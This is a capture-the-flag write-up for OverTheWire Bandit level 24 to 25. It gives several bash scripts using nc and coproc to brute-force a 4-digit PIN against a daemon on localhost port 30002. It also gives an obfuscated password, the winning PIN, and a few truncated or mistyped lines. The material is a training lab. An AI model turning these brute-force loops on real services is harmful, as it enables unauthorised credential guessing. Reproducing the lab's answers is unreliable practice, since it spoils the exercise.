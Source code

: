 # Write-up: Bandit 24 → 25
**Date:** 2025-08-16

## Obfuscated password (ROT13) 
`vPv86ggG4XFAr1nezXvjoDAzO3LWC3d4`

## OBJECTIVE
>"A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

>You do not need to create new connections each time"


## PURPOSE
We must brute-force a **4-digit PIN (0000–9999)**, but do it **over a single TCP connection** to `localho
```
<bandit24_password> <4-digit_pin>
```
The server replies “Wrong!” for bad guesses and prints the bandit25 password for the correct one. We’ll stream all guesses through



## SOLUTIONS

	~BEST~
	coproc ncproc { nc localhost 30002; }; read -r <&"${ncproc[0]}"; for i in {0000..9999}; do echo "[previous password[ $i" >&"${ncproc[1]}"; read -r r <&"${ncproc[0]}"; [[ $r != Wrong* ]] && echo "[+] $i $r" && break; done


	~SECOND BEST~

	coproc ncproc { nc localhost 30002; } && IFS= read -r banner <&"${ncproc[0]}" && for pin in $(seq -w 0000 9999); do echo "[previous password] $pin" >&"${ncproc[1]}"; IFS= read -r res <&"${ncproc[0]}"; echo "$pin → $res"; [[ $res != "Wrong!"* && -n $res ]] && echo "[+] $pin" && break; done; exec {ncproc[0]}>&-; exec {ncproc[1]}>&-


	~OR~

	#!/bin/bash
	
	password="[previous password]"
	
	# Start nc once
	coproc ncproc { nc localhost 30002; }
	
	# Read and show banner
	IFS= read -r banner <&"${ncproc[0]}"
	echo "[Banner] $banner"
	
	# Bruteforce loop
	for pin in $(seq -w 0000 9999); do
	  attempt="${password} ${pin}"   # <-- space between password and PIN!
	  echo "$attempt" >&"${ncproc[1]}"
	  IFS= read -r response <&"${ncproc[0]}"
	
	  echo "$pin → $response" | tee -a seq25.txt
	
	  if [[ "$response" != "Wrong! Please enter the correct current password and pincode. Try again." && -n "$response" ]]; then
	    echo "[+] Success with PIN $pin"
	    break
	  fi
	done
	
	# Clean up
	exec {ncproc[0]}>&-
	exec {ncproc[1]}>&-

	~OR~

	seq -f "[previous password]0000 %04g" 2200 2300 | nc localhost 30002 | tee -a seq25.txt
	cat seq25.txt | uniq -u


	~END~

	echo "[previous password] 2219" | nc localhost 30002

---

Writeup author: **Jeremy Ray Jewell**  
[GitHub](https://github.com/jeremyrayjewell) • [LinkedIn](https://www.linkedin.com/in/jeremyrayjewell)
